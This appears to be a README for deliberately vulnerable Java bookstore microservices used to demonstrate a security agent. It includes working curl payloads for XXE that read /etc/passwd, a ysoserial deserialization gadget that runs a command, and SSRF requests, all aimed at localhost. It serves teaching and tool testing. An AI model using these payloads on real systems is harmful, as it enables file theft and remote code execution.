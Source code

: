 # java-sample-apps
This repo holds a few Java apps showing the agent's ability to discover the most common vulnerabilities in microservices.

There are 3 microservice apps that implement a "book store".

## The Microservices

### bookstore-frontend (8000)

The bookstore-frontend app is a jax-rs app serving as a front end for the book store, exposing these
endpoints for book management:
 - GET /health
 - POST /add (this endpoint has an XXE vulnerability)
 - POST /delete
 - GET /list
 - GET /debug

### bookstore-data-manager (8001)

The bookstore-data-manager app is a SpringBoot app which holds the book data, offering a few services:
 - GET /ping
 - POST /add
 - POST /update (this "internal only" endpoint has a deserialization vulnerability)
 - POST /delete
 - GET /list
 
### bookstore-devservice (8002) 
 
### bookstore-debug

The bookstore-debug app is a Dropwizard app that offers info to the devs:
 - GET /application/ping
 - GET /application/info?env=qa (this endpoint has an SSRF vulnerability)

## Usage

The first step is to start all 3 of the services, which will run on ports 8000, 8001 and 8002, respectively.

To start normally:
```
$ docker-compose up
```

To start with Contrast enabled, first edit contrast_security.yaml with your agent credentials, then:
```
$ cp /path/to/contrast.jar .
$ docker-compose -f docker-compose.yml -f docker-compose-contrast.yml up
```

If you don't want to use docker-compose, each service has a Dockerfile to make running 1 step. Consult each service's `README.md` to see the commands.

### Using the services

You're _supposed_ to do everything through the frontend service.

Get a health check on the entire bookstore service mesh:
```
$ curl http://localhost:8000/health
```

List all the books:
```
$ curl http://localhost:8000/list
```

Add a book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<book><title>The Giving Tree</title><pages>30</pages></book>'
```

Alternatively, you can add a book through the backend service directly, where it expects JSON:
```
$ curl -H "Content-Type: application/json" http://localhost:8001/add -d '{"pages":"30", "title":"The Giving Tree"}'
```

Get debug info on the service:
```
$ curl http://localhost:8000/debug
```

## Detecting the vulnerabilities
To detect the vulnerabilities, start the apps with Contrast enabled as described above.  Then use the services to exercise the code.  It should not be necessary to exploit the vulnerabilities, in order for Contrast to identify the vulnerabilities.

## Exploiting the Vulnerabilities

### XML External Entity (XXE)
The XXE vulnerability can be exploited directly in the bookstore-frontend by adding a new malicious
book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<?xml version="1.0"?><!DOCTYPE book [<!ENTITY xxe SYSTEM "/etc/passwd">]><book><title>foo &xxe;</title><pages>21</pages></book>'
```

Now the contents of `/etc/passwd` has leaked into the the new book title, which you can see by
checking the book titles:
```
$ curl http://localhost:8000/list
```

### Deserialization
The `bookstore-data-manager` offers an "update a book" service that is not supposed to be used from
the outside, which is why it's not available through the `bookstore-frontend`.

This service is available at `/update`, and it accepts a binary, serialized Java object with `Book`
type.

To exploit this, we must first make an exploit that creates a file in `/tmp` as a proof-of-concept:
```
$ git clone https://github.com/frohoff/ysoserial
$ cd ysoserial
$ docker build -t ysoserial .
$ docker run --rm ysoserial CommonsCollections5 '/usr/bin/touch /tmp/hacked' > commonscollections5.ser
```

Now you can send the exploit generated in the `commonscollections5.ser` file:
```
$ curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@commonscollections5.ser" http://localhost:8001/update
```

To prove that we created this `/tmp/hacked` file, we must shell into the running container. 

If you started with docker-compose, the container ID is something like java-microservice-sample-apps_bookstore-datamanager_1.

If you ran the containers manually, you can start with the ID:
```
$ docker ps
CONTAINER ID        IMAGE                    COMMAND                 CREATED              STATUS              PORTS                              NAMES
*[RUNNING_CONTAINER_ID]*        bookstore-data-manager   "mvn spring-boot:run"
```

Now, using that container ID, we shell into the container and confirm the exploit created the `/tmp/hacked` file:
```
$ docker exec -it java-microservice-sample-apps_bookstore-datamanager_1 ls -al /tmp/hacked
...
-rw-r--r-- 1 root root 0 <time> /tmp/hacked
```

### Server Side Request Forgery (SSRF)
The `bookstore-frontend` exposes a "info" service, only intended for developers. It is intended to be used to rertieve data about different developer environments, but it can be used to force the app to retrieve data from other URLs:
```
$ curl http://localhost:8002/application/info?env=google.com/?
```

Obviously in this case we ask the server to retrieve Google content, but it could as easily be pointed towards URLs typically only accessed within your perimeter.

```
$ curl http://localhost:8002/application/info?env=SECRET
```
